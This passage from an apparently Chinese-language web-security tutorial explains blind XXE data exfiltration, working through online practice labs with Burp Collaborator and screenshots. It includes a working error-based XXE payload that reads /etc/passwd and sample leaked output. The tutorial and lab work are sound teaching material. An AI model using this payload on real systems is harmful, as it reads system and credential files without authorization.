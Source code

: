 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012c0025142b42e6e1.png)

然后在漏洞点加载这个恶意外部DTD

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c27f147cf22968c2.png)

然后我们看看burp collaborator能不能接收到发来的附有文件内容的带外请求

[![](https://p0.ssl.qhimg.com/t019a77f722b5940b6e.png)](https://p0.ssl.qhimg.com/t019a77f722b5940b6e.png)

成功获取到指定的文件内容

### <a class="reference-link" name="%E9%80%9A%E8%BF%87%E6%8A%A5%E9%94%99%E4%BF%A1%E6%81%AF%E5%88%A9%E7%94%A8XXE%E7%9B%B2%E6%89%93%E6%B3%84%E9%9C%B2%E6%95%B0%E6%8D%AE"></a>通过报错信息利用XXE盲打泄露数据

有的时候我们可以通过触发XML解析错误将敏感信息泄漏在报错信息中，例如

```
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY % error SYSTEM 'file:///nonexistent/%file;'&gt;"&gt;
%eval;
%error;
```

从上面我们能看到加载了一个不存在的文件触发XML报错，但是后面加载的file实体指定的文件是存在的，所以XML报错信息中就能泄漏这个文件的内容了，例如

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

接下来我们通过一道在线靶场来深入理解

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E9%80%9A%E8%BF%87%E6%8A%A5%E9%94%99%E4%BF%A1%E6%81%AF%E5%88%A9%E7%94%A8XXE%E7%9B%B2%E6%89%93%E6%B3%84%E9%9C%B2%E6%95%B0%E6%8D%AE"></a>配套靶场：通过报错信息利用XXE盲打泄露数据

同样的，我们还是要在对方服务器创建一个恶意的外部DTD

[![](https://p3.ssl.qhimg.com/t0152f133cbc910f8e1.png)](https://p3.ssl.qhimg.com/t0152f133cbc910f8e1.png)

我们加载了一个不存在的文件以触发报错，然后我们在漏洞点加载这个恶意外部DTD

[![](https://p2.ssl.qhimg.com/t019ad8150955e694ea.png)](https://p2.ssl.qhimg.com/t019ad8150955e694ea.png)

我们成功通过报错信息泄漏敏感文件内容了
